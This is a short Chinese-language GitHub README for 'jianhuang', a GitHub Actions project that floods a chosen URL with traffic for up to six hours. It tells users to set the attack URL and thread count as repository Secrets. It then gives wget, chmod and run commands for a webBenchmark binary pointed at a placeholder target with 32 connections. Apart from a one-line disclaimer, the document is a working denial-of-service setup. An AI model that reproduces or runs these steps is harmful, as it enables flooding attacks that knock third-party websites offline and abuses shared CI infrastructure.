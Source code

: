# jianhuang
Github Action JianHuang
剑皇（刷流量） 最长可执行6HOUR
支持设定攻击URL和线程


# 使用方法
添加Secrets
#Name     Value
#URL      攻击URL
#XC       线程数

点击STAR开始执行

# 声明
请勿用于非法用途


wget https://github.com/maintell/webBenchmark/releases/download/0.1/webBenchmark_linux_x64

chmod +x webBenchmark_linux_x64

./webBenchmark_linux_x64 -c 32 -s http://xxx.com/xxx.mp4/jpg
